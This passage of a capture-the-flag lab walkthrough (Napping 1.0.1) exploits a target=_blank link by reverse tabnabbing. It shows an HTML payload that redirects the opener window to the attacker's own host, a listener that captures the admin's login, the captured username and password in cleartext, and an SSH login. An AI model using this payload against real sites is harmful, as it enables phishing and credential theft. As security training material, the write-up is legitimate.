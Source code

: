 I logged in and I got this url Loaded lets check its source code for more details →

![Untitled](Napping%201%200%201/Untitled%204.png)

> While checking this source code I noticed this target value as _blank and that helps me access the url site as redirect so I searched on internet as got this vulnerability for redirection like this →
>
>[https://medium.com/@jitbit/target-blank-the-most-underestimated-vulnerability-ever-96e328301f4c](https://medium.com/@jitbit/target-blank-the-most-underestimated-vulnerability-ever-96e328301f4c)
{: .prompt-tip }

![Untitled](Napping%201%200%201/Untitled%205.png)

So for loading that redirect I created an html file named as index.html and used the javascript function of `window.opener.location` .

```html
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/napping1.0.1]
└─$ cat index.html                            
<html>
	<head>
	</head>
	<body>
		<script>
			window.opener.location = 'http://10.0.2.60:9000/index.html';
		</script>
	</body>
</html>
```
{: .nolineno}
{: .nolineno}

Now I started the http server through python on port 80 os that the file can be loaded through the machine and also started the lisener on port 9000 so that I could get some ping through admin → 

![Untitled](Napping%201%200%201/Untitled%206.png)

After some time I get the credentials from admin ping →

![Untitled](Napping%201%200%201/Untitled%207.png)

```bash
daniel : C@ughtm3napping123
```
{: .nolineno}
{: .nolineno}

Lets try SSH now →

## SSH SHELL →

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/napping1.0.1]
└─$ ssh daniel@10.0.2.75                                    
The authenticity of host '10.0.2.75 (10.0.2.75)' cant be established.
ED25519 key fingerprint is SHA256:81h22zyEZ6ztpKfLu65kzPnsnUUotkuioRYPno8fpN8.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.0.2.75' (ED25519) to the list of known hosts.
daniel@10.0.2.75 is password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-89-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

```